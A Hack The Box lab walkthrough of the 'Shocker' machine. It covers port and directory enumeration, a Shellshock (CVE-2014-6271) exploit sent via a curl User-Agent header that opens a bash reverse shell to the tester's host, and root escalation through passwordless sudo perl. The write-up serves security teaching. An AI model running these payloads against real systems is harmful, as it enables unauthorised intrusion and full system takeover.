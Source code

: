 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | ![](images/1.png) |

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.56

[+] Openning ports: 80,2222

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.56 -p80,2222
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 23:48 +07
Nmap scan report for 10.10.10.56
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.51 seconds
```

### Apache httpd 2.4.18

It is so funny at the home page, but don't have value info here.

![](images/2.png)

List of the hidden in the server with wfuzz.

```
┌──(Hades㉿10.10.14.5)-[2.4:26.0]~
└─$ wfuzz -z file,/usr/share/dirb/wordlists/common.txt --hc 404 'http://10.10.10.56/FUZZ'
<snip>
000000820:   403        11 L     32 W       294 Ch      "cgi-bin/"
000002020:   200        9 L      13 W       137 Ch      "index.html"
000003588:   403        11 L     32 W       299 Ch      "server-status"
```

There are uri `/cgi-bin/` may have more hidden content and will be exploit with shellshock vulnerability.

```
┌──(Hades㉿10.10.14.5)-[4.9:27.2]~
└─$ gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x .php,.sh,.html -b 403,404 -q
/user.sh              (Status: 200) [Size: 118]
```

I found uri `user.sh` in directory `cgi-bin`.

```
┌──(Hades㉿10.10.14.5)-[4.9:26.2]~
└─$ curl http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 13:55:03 up  1:11,  0 users,  load average: 0.00, 0.00, 0.00

```

## Foothold

### Shellshock

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/shocker)

Shellshock CVE-2014-6271 [Poc here](https://github.com/mubix/shellshocker-pocs).

`env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id`

Execute shelshock payload in the server using curl.

```
curl -H "user-agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

At the listener, I have reverse shell

```
┌──(Hades㉿10.10.14.5)-[3.4:26.2]~
└─$ sudo nc -nvlp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.56] 41484
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
```

## Privilege Escalation

### Sudo group

Checking with `sudo -l`, I know that command `/usr/bin/perl` can run as root without require password.

```
shelly@Shocker:/tmp$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Create file reverse shell `rev.pl` and execute it using `sudo /usr/bin/perl`.

```
shelly@Shocker:/tmp$ cat rev.pl | sudo /usr/bin/perl
```

At listener I have root shell.

```
┌──(Hades㉿10.10.14.5)-[3.5:25.3]~/scripting/priescal
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.56] 41492
# id
uid=0(root) gid=0(root) groups=0(root)
```